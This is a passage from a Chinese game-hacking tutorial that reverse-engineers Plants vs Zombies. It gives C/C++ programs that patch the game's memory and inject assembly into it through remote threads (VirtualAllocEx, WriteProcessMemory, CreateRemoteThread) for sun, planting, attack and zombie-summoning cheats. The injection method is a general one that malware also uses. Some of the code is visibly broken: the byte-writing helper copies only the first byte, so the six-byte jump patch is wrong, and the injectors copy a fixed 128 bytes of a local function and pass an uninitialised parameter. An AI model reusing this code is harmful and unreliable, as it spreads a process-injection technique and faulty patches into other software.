        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

// 读取内存字节集
byte *ReadByteSet(DWORD Pid, DWORD Base, DWORD Size)
{
    HANDLE handle = OpenProcess(PROCESS_ALL_ACCESS, 0, Pid);
    if (handle == NULL)
    {
        return 0;
    }

    byte *buf = new byte[Size];

    BOOL ref = ReadProcessMemory(handle, (LPVOID)Base, buf, Size, NULL);
    if (ref == TRUE)
    {
        printf("[*] 读取数据成功 \n");
    }
    else
    {
        printf("[*] 读取数据失败 \n");
    }
    return buf;
}

// 写内存字节集
BOOL WriteByteSet(DWORD Pid, DWORD Base, unsigned char *ShellCode, DWORD Size)
{
    BYTE *Buff = new BYTE[Size];
    memset(Buff, *ShellCode, Size);

    HANDLE handle = OpenProcess(PROCESS_ALL_ACCESS, 0, Pid);

    return WriteProcessMemory(handle, (LPVOID)Base, Buff, Size, NULL);
}

int main(int argc, char *argv[])
{
    // 得到进程PID
    DWORD pid = GetPidByName("PlantsVsZombies.exe");
    printf("[*] 进程PID = %d \n", pid);

    // 写出替换自动收集功能
    unsigned char AutoSun[] = { 0xEB };

    BOOL ref = WriteByteSet(pid, 0x0043158F, AutoSun, 1);
    if (ref == TRUE)
    {
        printf("[*] 替换自动收集已开启 \n");

        for (size_t i = 0; i < sizeof(AutoSun); i++)
        {
            printf("%x \n", AutoSun[i]);
        }
    }
    else
    {
        printf("[*] 替换数据失败 \n");
    }

    // 写出替换无限吐出阳光
    unsigned char Suns[] = { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    ref = WriteByteSet(pid, 0x0045FA7D, Suns, 6);
    if (ref == TRUE)
    {
        printf("[*] 替换无限吐出阳光已开启 \n");

        for (size_t i = 0; i < sizeof(Suns); i++)
        {
            printf("%x \n", Suns[i]);
        }
    }
    else
    {
        printf("[*] 替换数据失败 \n");
    }
    system("pause");
    return 0;
}
```

当游戏运行后，我们首先种植好向日葵，并开启自动收集阳光以及无限阳光功能，则读者可看到如下输出效果；


其实这种修改方式并不完美，因为我们的阳光数量可能是一个整数类型，如果不加以控制，当整数变量到达所能承载的最大范围时，则程序会发生整数溢出，轻则阳光变为负数，重则直接崩溃卡死。

### 6.4 寻找阳光掉落CALL

本次实验将接触到`Call`调用这个概念，Call相当于你在编程时所编写的函数，而高级语言中的函数最终也是会被编译器转换为汇编格式的Call调用，这些关键Call普遍都会存在各种参数，关于Call的作用，打个比方有些网游外挂可以实现自动寻路,自动吃药,自动打怪,甚至是全屏秒杀,这些功能是通过修改数值也无法做到的,Call就可做到。

其实关键Call就是作者开发过程中写的一个个处理不同事件的独立的处理函数，这些函数包括了各种独立的游戏功能，而我们可以在远程进程中开辟线程，并通过汇编形式动态的调用这些关键Call，从而实现一些变态功能。

我们通过查找阳光的掉落的定时器，并通过定时器变量顺藤摸瓜找到生成阳光的关键Call，通过给此Call传递不同参数实现掉落阳光，钻石，零秒通关等，阳光遍历技巧如下：

 - 进入游戏等待阳光出现 > 当阳光出现后 > 马上搜索未知初始数值
 - 返回游戏等待时钟发生变化 > 马上切回CE > 搜索减少的数值 > 阳光下落一点搜一点
 - 经过上方步骤反复排查 > 最终能找到一个值范围(0-700) > 锁定1即可实现无限掉落

关于阳光掉落基址与偏移的找法，在文章开头就已经分享了查找的技巧，此处直接给出控制阳光掉落公式 `[[[006A9F38 + 768] + 5538]]`

 - 00413B7C \- 83 86 38550000 FF \- add dword ptr \[esi+00005538\],-01 
 - 004524F4 \- 8B 86 68070000 \- mov eax,\[esi+00000768\]
 - 00599F75 \- A1 389F6A00 \- mov eax,\[PlantsVsZombies.exe+2A9F38\]

读者可自行将这段基址与偏移添加到CE的地址栏中，当添加好以后，读者应该能看到如下图所示的提示信息；



我们要找关键`Call`只需要等待阳光出现，当阳光出现后，CE会检测到一条数据 `add dword ptr [esi+00005538],-01` 说明此时定时器开始工作了，我们只需要记下这个内存地址`00413B7C`，然后关闭CE，并打开`x64dbg`附加到游戏。



此时我们关闭CE修改器，并打开`x64dbg`附加到游戏进程，然后按下`Ctrl+G`定位到`00413B7C` 此时我们需要关注`add dword ptr ds:[esi+0x5538],0xFFFFFFFF`这条计时器指令下方，就是一个大跳转该跳转跳向了结束，那么我们可以猜测`jne 0x413BF1`跳过的内容很有可能就是跳过了阳光的生成过程，也就是可能跳过了阳光生成Call。



玩过此游戏的一定知道，游戏屏幕中不止可以掉落出阳光，还可以掉出其他的东西，比如钻石，金钱，奖牌等，那么我们有理由相信，该游戏中调用的Call应该有很多参数传递，比如掉落属性，掉落坐标，掉落类型等，而我们已经找到了阳光计时器每次递减的汇编代码，故猜测调用Call应该就在附近，向下查找发现有很多`Call`调用，但有一个比较特别的`call 0x40CB10`，之所以说它特别是因为该`Call`在调用之前，通过`Push`传递了多了参数，此处很可疑，我们需要具体分析。



此时我们在`00413BE4`处下断点，然后回到游戏等待阳光的掉落，当阳光掉落时x64dbg会断下，此时我们将EAX寄存器内的4修改为2，并运行运行程序，观察会出现什么情况；



当读者运行后，回到游戏中会发现本应该出现阳光的地方居然出现了一个金币，而根据测试金币所代表的数字应该就是2了；


由上方的分析结果可知，当我们给EAX传入不同的值则代表不同的物件，如下是本人经过不断尝试后得出的一些物件的具体下标值；
```c
// 第一个push参数传递
push 0 普通掉落
push 2-3 其他掉落方式
push 4 自动收集阳光
push 6 右侧滑出掉落

// 第二个push参数传递
eax=2 金钱
eax=3 钻石
eax=4 普通阳光
eax=5 小的阳光
eax=6 大的阳光
eax=8 自动通关神器

// 猜测该子过程的实现流程
sub_00413BE4(push 0= 物品飞出状态,push eax= 掉落物品,push 0x3c,push edi= 对象状态,ecx= 游戏基地址)
{
    return 0;
}
```

到此，我们还没有办法完成外部注入，因为据我观察程序中的edi寄存器与ecx寄存器中的数据是动态的，每次游戏重新运行都会发生变化，如果想要在外部调用这个Call函数，我们需要找到这两个寄存器的基址，或者说找到他们的来源。

先来分析第一个地址如何定位，第一个动态地址是EDI寄存器，这个寄存器每次存储一个整数，此处无法直接找基址，我采取的方式是从后向前逆推代码，观察那些指令改写了该寄存器，然后将这些改写寄存器的指令拼凑起来。



这些调用分别是上图中的，标签`赋值1`与标签`赋值3`，另外加一个`call 0x005AF400`，程序中正是通过这种方式计算出动态数据的，我们直接将其提取出来，提取后代码如下：
```c
00413B85 | B8 26020000                  | mov eax,226                             | 赋值1
00413B8A | E8 71B81900                  | call <0x005AF400>                       | 这个CALL影响EAX寄存器
00413B96 | 8BF8                         | mov edi,eax                             | 赋值2
00413BA8 | 83C7 64                      | add edi,64                              | 赋值3
```

再来分析第二个也就是图中的`call 0x0040CB10`，第二个相对于第一个来说就好找许多了，因为它是一个动态地址，我们再次回到游戏并等待游戏中阳光的掉落，当阳光掉落后则会断在`call 0x0040CB10`位置处，我们此时需要记下`ECX寄存器`中的值，此处的地址是`1359D108`如下图所示；



接着我们在`x64dbg`中选择脱离进程（注意不可结束），接着我们打开CE修改器，然后我们来搜索十六进制数据`1359D108`搜索后可得到如下图所示的信息，此处可知一级偏移值是`0x768`，接着搜索`02729F30`内存地址；

 - 004524F4 - 8B 86 68070000  - mov eax,[esi+00000768]



当读者搜索`02729F30`后会找到`0x6A9EC0`这个内存地址，该地址也就是我们所需要找的基地址了，总结起来寻址公式为`[6A9EC0+768]`，从这里也可以看出这应该是一个通用对象地址。

 - 00467B00 - 8B 0D C09E6A00  - mov ecx,[006A9EC0]



当读者找到了这些地址以后，相信你应该写出一段具有实际功能的注入代码了，笔者实现的代码流程如下所示；
```c
pushad
mov eax,226
call 0x005AF400
mov edi,eax
add edi,64

mov esi,dword ptr ds:[ 006a9ec0 ]
mov esi,dword ptr ds:[ esi + 768 ]

push 0
push 4
push 3c
push edi
mov ecx,esi
call 0x40cb10
popad
```

至此我们需要测试一下这段反汇编代码的可用性，读者可以找任意一款反汇编代码注入软件，并点击注入按钮测试效果，但为了能够写出自己的辅助，我们还是需要实现一个简单的注入器，并能够通过远程的方式调用阳光生成Call，使用C语言编写如下代码即可实现注入效果，需要注意调用约定。
```c
#include <iostream>
#include <windows.h>
#include <string>
#include <tlhelp32.h>

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

// 增加阳光的汇编代码
void AddSun()
{
    __asm
    {
        pushad
        mov eax, 226
        mov ebx, 0x005AF400
        call ebx
        mov edi, eax
        add edi, 64
        mov esi, dword ptr ds : [0x006a9ec0]
        mov esi, dword ptr ds : [esi + 0x768]
        push 0h
        push 0x6
        push 0x3c
        push edi
        mov ecx, esi
        mov edx, 0x40cb10
        call edx
        popad
    }
}

// 注入代码
BOOL InjectCode(DWORD dwProcId, LPVOID mFunc)
{
    HANDLE hProcess, hThread;
    LPVOID mFuncAddr, ParamAddr;
    DWORD NumberOfByte;

    // 打开当前进程
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcId);
    if (hProcess == NULL)
    {
        return FALSE;
    }

    printf("[*] 打开目标进程 \n");

    // 分配内存空间
    mFuncAddr = VirtualAllocEx(hProcess, NULL, 128, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (mFuncAddr == NULL || mFuncAddr == 0)
    {
        return FALSE;
    }

    printf("[*] 分配内存空间 \n");

    // 写出数据
    if (!WriteProcessMemory(hProcess, mFuncAddr, mFunc, 128, &NumberOfByte))
    {
        return FALSE;
    }

    // 创建远程线程
    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)mFuncAddr, ParamAddr, 0, &NumberOfByte);
    if (hThread == NULL)
    {
        return FALSE;
    }

    printf("[*] 创建远程线程 \n");

    // 等待线程执行结束
    WaitForSingleObject(hThread, INFINITE);

    // 释放内存空间
    BOOL virtual_flag =  VirtualFreeEx(hProcess, mFuncAddr, 128, MEM_RELEASE);
    if (virtual_flag == FALSE)
    {
        return FALSE;
    }

    // 关闭并返回
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return TRUE;
}

int main(int argc, char *argv[])
{
    // 得到进程PID
    DWORD Pid = GetPidByName("PlantsVsZombies.exe");

    // 循环注入代码
    for (int i = 0; i < 50; i++)
    {
        BOOL ref = InjectCode(Pid, AddSun);
        if (ref == TRUE)
        {
            printf("[+] 代码注入完成 => %d \n", i);
        }
    }

    system("pause");
    return 0;
}
```

当读者运行这段代码后，则游戏内会生成`50`个大阳光，当然读者也可以自定义修改例如掉落钻石或者是其他物件，输出效果图如下所示；



### 6.5 寻找任意种植CALL

本次实验将介绍如何寻找任意种植CALL调用，所谓的任意种植指的是我们可以通过外部CALL调用的方式实现对植物的任意放置，通常情况下游戏中的格子是无法叠加种植的，但当我们找到了任意种植CALL调用时也就实现了叠加种植的效果，本次实验将通过两种方式分析并实现植物的任意种植效果，并通过注入代码实现通用辅助。

首先我们需要找到植物种植CALL调用，种植CALL调用的遍历技巧如下所示；

 - 打开修改器 > 回到游戏 > 然后回到CE > 扫描未知初始数
 - 回到游戏 > 拿起向日葵(不要种) > 搜索变动的数值 > 回到游戏(不要动) > 搜索未变动的数值
 - 回到游戏 > 放下向日葵 > 拿起豌豆射手 > 搜索变动的数值 > 以此重复进行直到找到为止

当我们使用鼠标点击时会在一个地址写入值，当换个植物则会换一个数值，这样如此反复就会找到CALL的地址，经过上方的排查读者应该能看到两个相近的内存地址，我们此处就选择`134E7658`这个地址，当我们放下植物时这个值会保持在`4294967295`范围内，如下图所示；



接着我们在该地址上面点击`找出是什么访问了这个地址`，回到游戏中我们再次点击植物时会看到如下图所示的输出结果，其中的地址`0041239A`则是触发植物时所出现的一条汇编指令；

 - 0041239A - 89 41 28  - mov [ecx+28],eax



此时我们关闭CE修改器，打开`x64dbg`调试器并附加到游戏进程上，运行程序，并通过`Ctrl+G`跳转到`0041239A`内存区域内，并在此处下断点，回到游戏拿起植物此处则会断下，当读者通过不断栈回溯最后读者应该能找到`0x00410A8C`处的跳转地址，当读者在此处下段点时会发现，当我们拿起植物并种下时此处就会被断下，而经过分析如果此处没有跳转则植物会被种下，而一旦跳转实现则植物将不会被种下，也就可以说明此处的`jne 0x00410AD9`就是植物种植的关键位置，而紧随其后的`call 0x0040D120`则是关键的种植CALL；



为了验证种植CALL的参数传递，此处我们在第一个格子中种植一个豌豆射手，并观察堆栈传递情况，当种下豌豆射手时参数传递如下图所示；



我们让程序运行起来，并在一个新的格子里种植一个向日葵，此时观察并对比参数传递情况，读者应该能看出两个植物种植所需参数之间的变化；



如上两张图的对比已经非常明显了，我们直接使用代码注入器注入分别将push 5 改成`1，2，3`，然后用`mov eax,2`控制在第几列种植，即可实现叠加效果。
```c
push 0xFFFFFFFF
push 5
mov eax,2
push 0
push ebp
call 0x0040D120
```

为了实现自定义注入代码，此处的`push 0x1359D108`还需要定位来源，此处读者可自行寻找`push ebp`中EBP寄存器内的值，这里为了节约篇幅不在演示重复的内容，当读者找到了这段调用代码，则可以编写一段代码实现全屏种植效果，当前格子为`4*8`的矩阵，那么首先这段代码则可写成如下样子；
```c
#include <iostream>
#include <windows.h>
#include <string>
#include <tlhelp32.h>

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

// 实现全屏种植
void MyASM()
{

    for (int x = 0; x < 5; x++)
    {
        for (int y = 0; y < 9; y++)
        {
            __asm
            {
                pushad
                push 0xFFFFFFFF
                push 5
                mov eax, x
                push y
                push 0x14ED3C68
                mov ebx, 0x40D120
                call ebx
                popad
            }
        }
    }
}

// 注入代码
BOOL InjectCode(DWORD dwProcId, LPVOID mFunc)
{
    HANDLE hProcess, hThread;
    LPVOID mFuncAddr, ParamAddr;
    DWORD NumberOfByte;

    // 打开当前进程
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcId);
    if (hProcess == NULL)
    {
        return FALSE;
    }

    printf("[*] 打开目标进程 \n");

    // 分配内存空间
    mFuncAddr = VirtualAllocEx(hProcess, NULL, 128, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (mFuncAddr == NULL || mFuncAddr == 0)
    {
        return FALSE;
    }

    printf("[*] 分配内存空间 \n");

    // 写出数据
    if (!WriteProcessMemory(hProcess, mFuncAddr, mFunc, 128, &NumberOfByte))
    {
        return FALSE;
    }

    // 创建远程线程
    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)mFuncAddr, ParamAddr, 0, &NumberOfByte);
    if (hThread == NULL)
    {
        return FALSE;
    }

    printf("[*] 创建远程线程 \n");

    // 等待线程执行结束
    WaitForSingleObject(hThread, INFINITE);

    // 释放内存空间
    BOOL virtual_flag =  VirtualFreeEx(hProcess, mFuncAddr, 128, MEM_RELEASE);
    if (virtual_flag == FALSE)
    {
        return FALSE;
    }

    // 关闭并返回
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return TRUE;
}

int main(int argc, char *argv[])
{
    // 得到进程PID
    DWORD Pid = GetPidByName("PlantsVsZombies.exe");

    BOOL ref = InjectCode(Pid, MyASM);
    if (ref == TRUE)
    {
        printf("[+] 代码注入完成 \n");
    }

    system("pause");
    return 0;
}
```

通过手动替换`EBP`中的值，此处为`push 0x14ED3C68`并运行这段代码，则可实现全屏种植的效果，如下图所示；



既然找到了种植CALL的地址`00410A94`，那我们可以猜测，植物在种下之前是否会判断放入方格中是否有植物呢？ 答案是肯定的，当我们在一个空地上种植的时候，我们能够种上说明条件成立，那如果方格中有植物则无法完成种植，条件也就不会成立，由此可猜到这里应该是使用一个条件判断来控制的，下面我们就去寻找这个条件判断的位置。

我们打开`x64dbg`并通过`Ctrl+G`跳转到`0x410A94`并在程序的段首`0x40FD30`处下断点，依次将过程中的关键判断条件进行断点测试，当读者运行到`0x40FE2F`当此处的JE指令跳转实现则我们即可实现叠加种植的效果，而如果没有跳则无法实现叠加，此处只需要将跳转改为`JMP`即可实现叠加；



通过编程的方式实现跳转，只需要将`0040FE2F`处替换为`E9 20 09 00 00 90`即可，实现代码如下所示；
```c
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

using namespace std;

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

// 写内存字节集
BOOL WriteByteSet(DWORD Pid, DWORD Base, unsigned char *ShellCode, DWORD Size)
{
    BYTE *Buff = new BYTE[Size];
    memset(Buff, *ShellCode, Size);

    HANDLE handle = OpenProcess(PROCESS_ALL_ACCESS, 0, Pid);

    return WriteProcessMemory(handle, (LPVOID)Base, Buff, Size, NULL);
}

int main(int argc, char *argv[])
{
    // 得到进程PID
    DWORD pid = GetPidByName("PlantsVsZombies.exe");
    printf("[*] 进程PID = %d \n", pid);

    // 写出替换
    unsigned char AutoSun[6] = { 0xE9, 0x20, 0x09, 0x00, 0x00, 0x90 };

    BOOL ref = WriteByteSet(pid, 0x40FE2F, AutoSun, 6);
    if (ref == TRUE)
    {
        printf("[*] 替换已开启 \n");

        for (size_t i = 0; i < sizeof(AutoSun); i++)
        {
            printf("%x \n", AutoSun[i]);
        }
    }
    else
    {
        printf("[*] 替换数据失败 \n");
    }

    system("pause");
    return 0;
}
```

叠加种植效果如下图所示；


### 6.6 寻找全屏攻击CALL

本次实验目标是实现远程种植，要实现这个功能我们就需要找到植物的种植Call，种植Call什么时候会触发呢？当我们种植植物的时候必定会触发种植Call，那么此时我们只要遍历出植物的种植过程即可，通过CE我们找到拿起植物的关键代码，我们可以猜测植物拿起来这个动作之后应该就是种植了，只要我们能够找到控制拿起植物的代码，那么距离种植Call应该不会太远。

寻找植物种植CALL遍历流程如下:

 - 打开游戏并开启新关卡 > 然后在CE中首次扫描 > 扫描未知初始化数值
 - 回到游戏 > 拿起向日葵(不要种) > CE搜索变动的数值 > 回到游戏(不要动) > 搜索未变动的数值
 - 回到游戏 > 放下向日葵(右键) > 拿起豌豆射手 > CE搜索变动的数值 > 以此循环直到找到为止

通过使用上方查找技巧循环查找游戏数据，最后你可以看到如下图所示的一些内存地址，读者可根据自己的思路逐一排查分析，此处我们要找的内存地址默认值（放下植物后）是`4294967295`找到后请将这两个地址加入到地址栏中，如下图所示；



为了提高查找精度缩小出错的概率，我们手动拿起不同的植物，豌豆射手向日葵和樱桃炸弹，并观察CE中两个地址的变化，会发现地址栏中的两个地址是从`0、1、2`有顺序的变化，如下图当拿起向日葵时这个值变为了1，由于此游戏栏位下标是从0编号的，所以当拿起第二个植物时此处的编号则变为了1，如下图所示；



此时我们在`0x13585884`这个内存地址上右键选择`找出是什么访问了这个地址`，然后回到游戏手动种植一棵向日葵，此时地址表中会出现两条汇编指令，这两条指令正是我们种植植物时所访问的指令，直接记下这两条指令所对应的地址分别是`0x00410AC1`以及`0x004123AC`如下图所示；



接着我们以同样的方法，在`0x13585888`这个内存地址上查找访问代码，然后再次回到游戏中种植一个植物，此时地址表中会出现三条汇编指令，由于我们并不知道到底哪一条指令附近存在种植Call，所以最稳妥的办法就是直接记下这三条指令`0x0410865/0x0410A91/0x041239A`的内存地址，后期我们会逐步分析这几条汇编指令。



 - 00410AC1 - 8B 42 24  - mov eax,[edx+24] <<
 - 004123AC - 89 41 24  - mov [ecx+24],eax <<
 - 00410865 - 8B 46 28  - mov eax,[esi+28] <<
 - 00410A91 - 8B 40 28  - mov eax,[eax+28] <<
 - 0041239A - 89 41 28  - mov [ecx+28],eax <<

根据如上两张图我们可以总结出这样的五条汇编指令，其实这里有一个排除技巧，因为这几条指令都是在植物种植以后出现的，又因为种植植物这个动作肯定有参数的传递，而正常情况下参数的传递都会使用堆栈或寄存器传递，观察上图可发现`mov eax,[eax+28]`这条指令是将内存地址中的数据取出来赋值给寄存器，那么下一步很可能就是通过寄存器传递参数以作为`Call`的参数使用，而紧随其后的`mov [ecx+28],eax`则是即将要把`EAX`的值赋给一个内存地址，很明显不会是调用`Call`之前的动作，对于调用来说很有可能使用EAX寄存器传递参数，那么读者可以自行分析，将赋值语句中的内存传值直接排除掉。



通过经验排查，这五个地址中最有可能是种植`Call`的地址有两个，分别是`0x0410AC1`和`0x0410A91`这两个都是将数据从内存取出来并放入寄存器，下一步可能就是压入堆栈并调用Call了，这两处中第一处位置虽然底部有一个CALL调用但是该调用传递参数过少可以直接排除掉，而第二个参数传递很像调用CALL，如上图所示；

读者可自行下断点并根据这个执行流程，通过观察可以很容易的提取出种植CALL的调用次序，需要注意的是`push ebp`里面的地址是动态地址，而针对这种动态地址的找法在上一节逆向植物的相关内容中已经总结过了，此处就直接跳过，读者可提取出此段代码的关键位置；
```c
00410A8E | 8B50 2C                      | mov edx,dword ptr ds:[eax+2C]              |  
00410A91 | 8B40 28                      | mov eax,dword ptr ds:[eax+28]              |  
00410A94 | 52                           | push edx                                   | EDX = FFFFFFFF
00410A95 | 50                           | push eax                                   | 植物ID号=1 (向日葵)
00410A96 | 8B4424 20                    | mov eax,dword ptr ss:[esp+20]              | X坐标=2 （第二个格子）
00410A9A | 57                           | push edi                                   | Y坐标=0 （第零个格子）
00410A9B | 55                           | push ebp                                   | EBP = 1359D108
00410A9C | E8 7FC6FFFF                  | call <plantsvszombies.sub_40D120>          | call 0x0040D120
```

最后我们的任务是通过编程实现远程注入，并使用槽位3中的樱桃炸弹作为全屏爆炸的工具，并循环填充这个`5*9`的内存矩阵，以此则可实现全屏攻击的效果，这段注入代码如下所示；
```c
#include <iostream>
#include <windows.h>
#include <string>
#include <tlhelp32.h>

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

// 全屏爆炸攻击
void FullScreenAttack()
{
    DWORD addr = 0x0040D120;
    for (int x = 0; x < 5; x++)
    {
        for (int y = 0; y < 9; y++)
        {
            __asm
            {
                pushad
                mov esi, dword ptr ds : [0x006a9ec0]
                mov esi, dword ptr ds : [esi + 0x768]
                push 0xfffffff
                push 0x2
                mov eax, x
                push y
                push esi
                call addr
                popad
            }
        }
    }
}

// 注入代码
BOOL InjectCode(DWORD dwProcId, LPVOID mFunc)
{
    HANDLE hProcess, hThread;
    LPVOID mFuncAddr, ParamAddr;
    DWORD NumberOfByte;

    // 打开当前进程
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcId);
    if (hProcess == NULL)
    {
        return FALSE;
    }

    printf("[*] 打开目标进程 \n");

    // 分配内存空间
    mFuncAddr = VirtualAllocEx(hProcess, NULL, 128, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (mFuncAddr == NULL || mFuncAddr == 0)
    {
        return FALSE;
    }

    printf("[*] 分配内存空间 \n");

    // 写出数据
    if (!WriteProcessMemory(hProcess, mFuncAddr, mFunc, 128, &NumberOfByte))
    {
        return FALSE;
    }

    // 创建远程线程
    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)mFuncAddr, ParamAddr, 0, &NumberOfByte);
    if (hThread == NULL)
    {
        return FALSE;
    }

    printf("[*] 创建远程线程 \n");

    // 等待线程执行结束
    WaitForSingleObject(hThread, INFINITE);

    // 释放内存空间
    BOOL virtual_flag = VirtualFreeEx(hProcess, mFuncAddr, 128, MEM_RELEASE);
    if (virtual_flag == FALSE)
    {
        return FALSE;
    }

    // 关闭并返回
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return TRUE;
}

int main(int argc, char *argv[])
{
    // 得到进程PID
    DWORD Pid = GetPidByName("PlantsVsZombies.exe");

    for (int x = 0; x < 10; x++)
    {
        // 注入代码
        BOOL ref = InjectCode(Pid, FullScreenAttack);
        if (ref == TRUE)
        {
            printf("[+] 代码注入完成 \n");
        }
    }

    system("pause");
    return 0;
}
```

运行上述代码程序，则读者可以看到屏幕中所有的格子都开始了全屏爆炸攻击，如下图所示；



### 6.7 寻找召唤僵尸CALL

在前面的章节中笔者教大家找到了有利于玩家通关的一些关键技巧，本章我们将继续寻找僵尸召唤出现的CALL调用，通过手动调用此函数，我们可实现批量召唤更多的僵尸队伍的目的，首先我们还是先来看一下僵尸召唤CALl是如何被遍历出来的。

僵尸CALL的遍历技巧：

 - 首先打开CE > 进入游戏开始新的游戏 > 直接搜索未知初始化数据
 - 等待出现第一个僵尸 > 搜索增加的数值 > 回到游戏中
 - 等待出现第二个僵尸 > 搜索增加的数值 > 然后杀死一个僵尸 > 搜索减少的数值
 - 选择介于两者之间的 > 输入0-10这个范围 > 进一步筛查 > 最终即可找到

当读者根据上述方法排查后，最终会看到如下两个地址，分别是绿色基址`0x06a7bd8`以及动态地址`0x134ef070`如下图所示；



我们分别查找是什么`改写了这个内存`地址，首先时第一个内存地址`0x134ef070`僵尸出现后会弹出如下图所示的提示信息；

 - 0041DE07 - 01 46 10  - add [esi+10],eax <<



接着是第二个`0x06a7bd8`内存地址，同样查找是什么`改写了这个内存`地址，当僵尸出现后会出现后，如下图所示；

 - 00471B57 - 83 46 0C 01 - add dword ptr [esi+0C],01 <<



此时我们关闭CE修改器，打开`x64dbg`并附加到该进程上，读者分别在`0x041DE07`及`0x0471B57`两个内存地址上设置内存断点，并等待僵尸出现，当出现后会被断在`0x041DE07`内存地址处，观察发现此处的地址并没有过多的参数传递，判断此处并非召唤CALL地址。



我们直接`RETN`返回到上一层，会看到如下代码，直接在`PUSH`地址上下一个`F2`断点，然后运行游戏，回到游戏等待出现新的僵尸，读者会看到如下图所示的调用CALL，此处的CALL正是僵尸召唤的关键调用位置；



经过笔者的分析，上面的参数经过不同程度的修改确实可以控制僵尸的出现位置，和僵尸的类型，但这里传递的参数还是过多，而且很多参数我们都用不到，那么我们直接出这个CALL，出CALL后读者会看到如下图所示的内容，



上图中`mov eax,edi`的`EDI`寄存器`0x134EEFD0`是一个动态地址，因为他是僵尸对象，所以每次程序运行都会发生变化，如果想用代码注入器注入代码的话，则需要找到EDI的基地址，接下来我们将使用CE搜索EDI的基址和偏移。

直接使用CE搜索`0x134EEFD0`这个内存地址，并得到一级偏移`768`下一个搜索地址为`0x2839f30`

 - 004526E0 - 8B B7 68070000  - mov esi,[edi+00000768] <<



继续搜索`0x02839f30`得到基地址，最终地址为`PlantsVsZombies.exe+2A9F38`

 - 00512665 - A1 389F6A00 - mov eax,[006A9F38] <<



将上述代码总结起来则可实现无限召唤僵尸的功能，实现代码片段如下所示；
```c
#include <iostream>
#include <windows.h>
#include <string>
#include <tlhelp32.h>

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

// 自定义召唤僵尸
void SummonZombies(int x, int y)
{
    DWORD addr = 0x40DDC0;

    __asm
    {
        pushad
        mov edi, dword ptr ds : [0x6a9f38]
        mov edi, dword ptr ds : [edi+0x768]
        push x
        push y
        mov eax,edi
        call addr
        popad
    }
}

// 注入代码
BOOL InjectCode(DWORD dwProcId, LPVOID mFunc)
{
    HANDLE hProcess, hThread;
    LPVOID mFuncAddr, ParamAddr;
    DWORD NumberOfByte;

    // 打开当前进程
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcId);
    if (hProcess == NULL)
    {
        return FALSE;
    }

    printf("[*] 打开目标进程 \n");

    // 分配内存空间
    mFuncAddr = VirtualAllocEx(hProcess, NULL, 128, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (mFuncAddr == NULL || mFuncAddr == 0)
    {
        return FALSE;
    }

    printf("[*] 分配内存空间 \n");

    // 写出数据
    if (!WriteProcessMemory(hProcess, mFuncAddr, mFunc, 128, &NumberOfByte))
    {
        return FALSE;
    }

    // 创建远程线程
    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)mFuncAddr, ParamAddr, 0, &NumberOfByte);
    if (hThread == NULL)
    {
        return FALSE;
    }

    printf("[*] 创建远程线程 \n");

    // 等待线程执行结束
    WaitForSingleObject(hThread, INFINITE);

    // 释放内存空间
